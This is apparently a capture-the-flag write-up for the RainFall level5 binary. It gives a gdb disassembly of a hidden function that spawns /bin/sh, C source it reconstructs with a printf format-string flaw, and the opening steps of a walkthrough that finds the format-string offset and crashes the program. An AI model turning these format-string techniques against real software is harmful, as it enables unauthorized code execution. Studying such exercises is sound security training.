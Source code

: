 ```asm
End of assembler dump.

# If we look closely at the assembly code, we can find the o function, which is not called
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp

   0x080484a7 <+3>:	sub    esp,0x18
   0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0 ; (gdb) printf "%s", 0x80485f0 -> "/bin/sh"
   0x080484b1 <+13>:	call   0x80483b0 <system@plt> ; Call system("/bin/sh");
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1 ; Set 1 as 1st argument of exit
   0x080484bd <+25>:	call   0x8048390 <_exit@plt> ; Call exit(1)
End of assembler dump.
```

### Equivalent C source code

```c
#include <stdio.h>

void	o(void) {
	system("/bin/sh");
	exit(1);
}

void	n(void) {
	unsigned char buffer[528];
	
	fgets(&buffer[16], 512, stdin);
	printf(&buffer[16]);
	exit(1);
}

int		main(int ac, char **av) {
	n();
	return 0;
}

# Compiled with -fpic
```

### Walktrough

```bash
# Find the index of the string
level5@RainFall:~$ (for i in {1..500}; do echo -n -e 'BBBB%'${i}'$x' > /tmp/lol ; echo -n $i": "; cat /tmp/lol2 | ./level5 ; echo ; done;) | grep 42424242
4: BBBB42424242

# Check if we can make the program segfault
level5@RainFall:~$ echo 'BBBB%4$s' | ./level5
Segmentation fault (core dumped)
```
